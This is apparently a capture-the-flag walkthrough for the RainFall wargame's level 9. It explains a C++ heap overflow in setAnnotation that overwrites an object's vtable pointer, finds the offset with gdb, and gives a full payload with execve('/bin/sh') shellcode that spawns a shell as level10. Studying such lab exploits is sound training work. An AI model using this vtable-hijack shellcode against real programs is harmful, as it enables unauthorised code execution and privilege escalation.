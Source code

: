 # RainFall Walkthrough — Level 9 → Level 10

## Step 1 — Program Structure

The binary is a **C++ program** using classes and vtables. Let’s reconstruct the logic of `main`:

```cpp
int main(int argc, char **argv) {
    if (argc < 2)
        _exit(1);

    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(argv[1]);
    (b->vtable->operator_plus)(b, a);
}
```

Key points:

* `N` has a **vtable pointer** at offset `0x0`.
* `setAnnotation(argv[1])` copies input into an internal buffer with **no bounds check**.
* At the end, `b->operator+(a)` is called **via the vtable**.

👉 If we overwrite `b`’s vtable pointer, we control the function call.

---

## Step 2 — Vulnerable Function

```cpp
void N::setAnnotation(char *str) {
    size_t len = strlen(str);
    memcpy(this + 4, str, len);
}
```

* Writes user input into the buffer at offset `+4`.
* **No length check** → overflow into adjacent memory.
* Eventually, we can overwrite the **vtable pointer at offset 0x0**.

That’s the vulnerability.

---

## Step 3 — Virtual Call Mechanics

At the end of `main`, the code does:

```asm
mov eax, [esp+0x10]   ; eax = b
mov eax, [eax]        ; eax = b->vtable
mov edx, [eax]        ; edx = b->vtable[0]
call edx              ; calls operator+
```

Normally → calls `N::operator+`.
If we corrupt `b->vtable`, it will call **any address we control**.

---

## Step 4 — Exploit Strategy

1. Create object `a` and `b`.
2. Use `a->setAnnotation(argv[1])` to overflow into `b`.
3. Overwrite `b->vtable` with a pointer inside our buffer.
4. Place a fake vtable and shellcode there.
5. When `b->operator+(a)` is called → it jumps to our shellcode.

---

## Step 5 — Finding the Offset

Using a cyclic pattern, crash analysis showed:

```
eax = 0x41366441
```

This corresponds to **offset 108**.

So: after 108 bytes, we reach and overwrite the vtable pointer.

---

## Finding the address

```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // buffer address
```

---

## Step 6 — Crafting the Payload

Memory layout we want:

```
[ fake vtable entry ] → shellcode address
[ shellcode ]         → execve("/bin/sh")
[ padding ]
[ overwrite vtable ]  → pointer to fake vtable
```

Example payload:

```python
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

At runtime:

* `b->vtable = 0x804a00c` (points into our buffer).
* `b->vtable[0] = 0x804a010` (points at our shellcode).
* Program executes `call edx` → jumps into shellcode. ✅

---

## Step 7 — Why Use Shellcode

* Earlier levels relied on GOT overwrites.
* Here, vtable corruption is simpler.
* **NX is disabled**, so injected shellcode runs.
* `system()` isn’t directly available → shellcode is the clean solution.

---

## Step 8 — Memory Visualization

### Before Overflow

```
b->vtable → [0x08048848] → legit N::operator+()
```

### After Overflow

```
b->vtable → [0x0804a00c] → [0x0804a010] → SHELLCODE!
```

So the virtual function call ends up running our shellcode.

---

## Final Step — Success

Exploit command:

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + SHELLCODE + "A"*76 + "\x0c\xa0\x04\x08"')
```

This spawns a shell as **level10**.


